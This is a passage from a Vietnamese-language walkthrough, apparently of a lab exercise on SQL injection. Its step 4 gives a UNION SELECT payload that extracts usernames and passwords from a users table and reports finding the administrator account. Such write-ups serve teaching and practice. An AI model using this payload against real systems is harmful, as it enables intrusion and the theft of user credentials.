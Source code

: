   <img src="img/img6.jpg" alt="Minh họa" width="600">
  <br>
  <em>Hình 6: Minh họa kết quả</em>
</div>

#### 🔸 Bước 4: Lấy thông tin tài khoản
> **💡 Payload sử dụng:**
```sql
'+UNION+SELECT+username_aaxkto,+password_pphepo+FROM+users_ifhciw--
```

> **📊 Kết quả:**
- ✅ Lấy được bảng chứa các tài khoản và mật khẩu
- ✅ Tìm thấy tài khoản administrator
<div align="center">
  <img src="img/img7.jpg" alt="Minh họa" width="600">
  <br>
  <em>Hình 7: Minh họa kết quả</em>